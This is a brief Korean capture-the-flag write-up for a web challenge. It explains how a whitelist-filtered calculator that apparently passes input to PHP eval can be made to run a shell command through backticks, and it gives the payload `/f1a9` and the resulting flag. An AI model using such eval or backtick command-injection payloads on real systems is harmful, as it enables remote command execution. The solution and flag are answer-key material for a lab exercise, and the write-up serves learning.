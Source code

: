 ### <why_are_you_there?>



![]({{ site.url }}/{{ site.baseurl }}/assets/images/writeup/debugCTF/web/index.png){: .imgcenter }

페이지를 보면 화이트 필터링이 되어있는 눈치이다. 또한 calculate 이므로 eval함수를 사용한 취약점 문제일수도 있다.

화이트 필터링되는 문자들을 사용하여 /f1a9는 쉽게 만들수있다. 하지만 eval 이라 쳐도 내부 파일을 실행시킬수있는 함수를 만들수는 없다. 하지만

```php
$cmd = `ls`; //backtick -> ``
echo $cmd; //index.php
```

백틱 문자열을 이용하여 커맨드를 사용할수있고

```php
eval("echo ".$_POST["calc"].";");
```

만약 eval 이 이런식이라 예상했을때

```
`/f1a9`
```

로 값을 준다면 플래그를 얻을수있다.

```
debugCTF{backtick_careful}
```

